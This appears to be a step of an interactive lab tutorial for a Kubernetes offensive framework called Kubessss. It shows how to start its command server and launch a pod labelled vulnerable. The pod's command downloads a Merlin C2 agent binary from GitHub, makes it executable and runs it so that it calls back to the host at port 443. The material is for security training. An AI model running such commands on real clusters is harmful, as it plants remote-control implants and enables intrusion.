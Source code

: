 Here we will see the basic settings of Kubessss.

## Basics of Kubessss

#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `kubectl get nodes -o jsonpath='{ $.items[?(@.metadata.name=="controlplane")].status.addresses[?(@.type=="InternalIP")].address }{"\n"}'`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute}}

Start the server `./server`{{execute}}.    
To view the menu, run `help`{{execute}} and to see the list of modules run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  

Let's continue and see examples2.  

Start this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/g3rzi/katacodaScenario/releases/download/0.1/merlinAgent-Linux-x64 && chmod +x merlinAgent-Linux-x64 && ./merlinAgent-Linux-x64 -url https://$HOST_IP:443", "sleep infinity" ]
EOF```{{execute T3}}  



`echo T1`{{execute T1}}  
`echo T2`{{execute T2}}  
`echo T3`{{execute T3}}  